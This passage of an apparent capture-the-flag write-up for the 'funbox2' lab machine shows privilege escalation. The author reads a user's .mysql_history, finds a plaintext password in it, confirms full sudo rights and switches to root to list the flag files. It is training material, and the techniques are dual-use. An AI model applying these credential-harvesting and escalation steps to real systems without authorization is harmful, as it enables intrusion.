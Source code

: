 ```bash
4.0K -rw-r--r-- 1 tom  tom   807 Apr  4  2018 .profile
4.0K -rw------- 1 tom  tom    45 Jan 13 09:42 .python_history
4.0K drwx------ 2 tom  tom  4.0K Jul 25  2020 .ssh
```

Lets have a look into the file `.mysql_history`.
```bash
tom@funbox2:~$ cat .mysql_history 
_HiStOrY_V2_
show\040databases;
quit
create\040database\040'support';
create\040database\040support;
use\040support
create\040table\040users;
show\040tables
;
select\040*\040from\040support
;
show\040tables;
select\040*\040from\040support;
insert\040into\040support\040(tom,\040xx11yy22!);
quit
```

> We found a password for the user tom! `tom:xx11yy22!`
{: .prompt-info }

We will now check if we are allowed to execute commands with `sudo` by using the found password.
```bash
tom@funbox2:~$ sudo -l
[sudo] password for tom: 
Matching Defaults entries for tom on funbox2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tom may run the following commands on funbox2:
    (ALL : ALL) ALL
```

> Yes! We are allowed to execute every command with `sudo`!
{: .prompt-info }

Lets switch to user `root`
```bash
tom@funbox2:~$ sudo su
root@funbox2:/home/tom# id
uid=0(root) gid=0(root) groups=0(root)
```

> We are `root` now :-)
{: .prompt-info }

## get second flag
```bash
root@funbox2:/home/tom# cd /root
root@funbox2:~# ls -lsah
total 32K
4.0K drwx------  4 root root 4.0K Jan 13 09:00 .
4.0K drwxr-xr-x 24 root root 4.0K Oct 14  2020 ..
   0 -rw-------  1 root root    0 Oct 14  2020 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
4.0K -rw-r--r--  1 root root   32 Oct 14  2020 flag.txt
4.0K drwx------  3 root root 4.0K Sep 15  2020 .gnupg
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-------  1 root root   33 Jan 13 09:00 proof.txt
```